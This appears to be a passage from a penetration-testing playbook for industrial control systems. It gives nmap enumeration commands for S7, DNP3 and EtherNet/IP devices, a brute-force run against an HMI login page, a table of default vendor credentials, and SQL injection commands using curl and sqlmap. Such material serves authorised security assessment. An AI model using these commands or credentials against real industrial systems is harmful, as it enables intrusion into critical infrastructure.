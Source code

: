 **ICS-Specific Enumeration**
```bash
# Reference: Recon.md lines 160-201 for complete ICS scanning techniques

# Siemens S7 enumeration
nmap --script s7-info,s7-enum -p 102 [TARGET_IP]

# DNP3 protocol testing
nmap --script dnp3-info -p 20000 [TARGET_IP]

# EtherNet/IP scanning
nmap --script enip-info -p 44818 [TARGET_IP]
```

**Documentation Phase**
- Update [`Network_Map.md`](Recon/Network_Map.md) with discovered devices
- Record all open ports and services
- Note any unusual or suspicious findings
- Flag potential entry points for further investigation

---

## 🕸️ Phase 2: Web Application Analysis & Initial Access

*Reference: [`Exploits.md`](Exploits/Exploits.md) (2,550 lines) - Complete exploitation techniques*

### 2.1 HMI Web Interface Testing

**Authentication Testing**
```bash
# Use our intelligent login brute forcer
python3 Scripts/Python/web_login_bruteforcer.py --url http://[HMI_IP]/login --wordlist /usr/share/wordlists/rockyou.txt --output "$RESULTS_DIR/login_attempts.txt"

# Test default industrial credentials
# Reference: Exploits.md lines 1584-1620 for comprehensive credential list
```

**Common Industrial Default Credentials**
| System | Username | Password |
|:-------|:---------|:---------|
| Wonderware | Administrator | (blank) |
| WinCC | Administrator | 100 |
| FactoryTalk | admin | password |
| Citect | CITECT | CITECT |
| Niagara | admin | niagara |

### 2.2 SQL Injection Testing

**Automated SQLi Detection**
```bash
# Reference: Exploits.md lines 158-320 for complete SQLi techniques

# Quick SQLi test
curl -X POST "http://[TARGET]/login" -d "username=' OR 1=1-- &password=test"

# Comprehensive testing with sqlmap
sqlmap -u "http://[TARGET]/search?q=" --batch --level=3 --risk=2 --dbs
```
